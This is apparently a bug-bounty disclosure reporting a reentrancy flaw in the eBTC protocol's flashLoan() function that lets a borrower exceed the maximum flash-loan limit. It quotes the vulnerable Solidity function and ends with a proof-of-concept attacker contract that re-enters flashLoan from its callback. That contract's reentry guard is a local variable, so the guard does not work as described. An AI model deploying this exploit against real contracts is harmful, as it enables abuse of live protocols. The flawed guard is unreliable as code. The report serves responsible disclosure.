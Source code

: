 # Reentrancy on BorrowerOperations allows users to borrow greater than Max Flash Loan

Submitted about 1 month ago by @shanb1605 (Whitehat) for Boost | eBTC

Report ID: #28713

Report type: Smart Contract

Has PoC? Yes

Target: https://github.com/ebtc-protocol/ebtc/blob/release-0.7/packages/contracts/contracts/BorrowerOperations.sol

# Impacts
- Contract fails to deliver promised returns, but doesn't lose value

# Details

Permalink: https://github.com/ebtc-protocol/ebtc/blob/a96bd000c23425f04c3223a441a625bfb21f6686/packages/contracts/contracts/BorrowerOperations.sol#L1091

# Brief/Intro
The `flashLoan()` allows users to borrow ebtc on BorrowerOperations. The amount that can be borrowed is limited to maxFlashLoan(token) means one can borrow within the maximum limit of the amount. This limit can be bypassed with a reentrant call on the `flashLoan()` function.

# Vulnerability Details

The BorrowerOperations contract misses reentrancy protection on flashLoan() which leads to borrowing over the max borrowing limit of the token.

```
    function flashLoan(
        IERC3156FlashBorrower receiver,
        address token,
        uint256 amount,
        bytes calldata data
    ) external override returns (bool) {
        require(amount > 0, "BorrowerOperations: 0 Amount");
        uint256 fee = flashFee(token, amount); // NOTE: Check for `eBTCToken` is implicit here // NOTE: Pause check is here
        require(amount <= maxFlashLoan(token), "BorrowerOperations: Too much");

        // Issue EBTC
        ebtcToken.mint(address(receiver), amount);

        // Callback
        require(
            receiver.onFlashLoan(msg.sender, token, amount, fee, data) == FLASH_SUCCESS_VALUE,
            "IERC3156: Callback failed"
        );

        // Gas: Repay from user balance, so we don't trigger a new SSTORE
        // Safe to use transferFrom and unchecked as it's a standard token
        // Also saves gas
        // Send both fee and amount to FEE_RECIPIENT, to burn allowance per EIP-3156
        ebtcToken.transferFrom(address(receiver), feeRecipientAddress, fee + amount);

        // Burn amount, from FEE_RECIPIENT
        ebtcToken.burn(feeRecipientAddress, amount);

        emit FlashLoanSuccess(address(receiver), token, amount, fee);

        return true;
    }
```

# Impact Details
**Contract fails to deliver promised returns, but doesn't lose value**: The contract promises to lend within the maximum flash loan amount to the users. However, the malicious users can re-enter the `flashloan()` function and borrow above the maximum limit. Hence, the contract fails to deliver the promise.

# References
MakerDao has Reentrancy Protection on the FlashLoan module: https://github.com/makerdao/dss-flash/blob/9d492aa6148c35f568400a1ab85cd6df43b2ccc8/src/flash.sol#L74

https://github.com/makerdao/dss-flash/blob/9d492aa6148c35f568400a1ab85cd6df43b2ccc8/src/flash.sol#L137

# Proof of concept

- First `call_Flashloan()` is executed to borrow the max amount of ebtc.
- Inside `onFlashLoan some_actions()` will executed to borrow again the ebtc from the BorrowerOperations contract.
- It sets `attack_done = true` to prevent an unbounded loop.
- Further actions will be carried out with the Flash Loan amount.

```
pragma solidity ^0.8.0;

interface BorrowerOperations {
    function flashLoan(address receiver,address token,uint256 amount,bytes calldata data) external;
}

contract FlashLoan_Receiver {
    bytes32 public constant FLASH_SUCCESS_VALUE = keccak256("ERC3156FlashBorrower.onFlashLoan");

    function call_Flashloan() external {
        BorrowerOperations(address(1)).flashLoan(address(this), address(0xeee),12301300,"");
    }

    function onFlashLoan(address,address,uint256,uint256,bytes memory) external returns(bytes32) {
        some_actions();
        return FLASH_SUCCESS_VALUE;
    }

    function some_actions() internal {
        bool attack_done;
        if(!attack_done) {
            attack_done = true;
            BorrowerOperations(address(1)).flashLoan(address(this), address(0xeee),12301300,"");
        }
    }

}
```
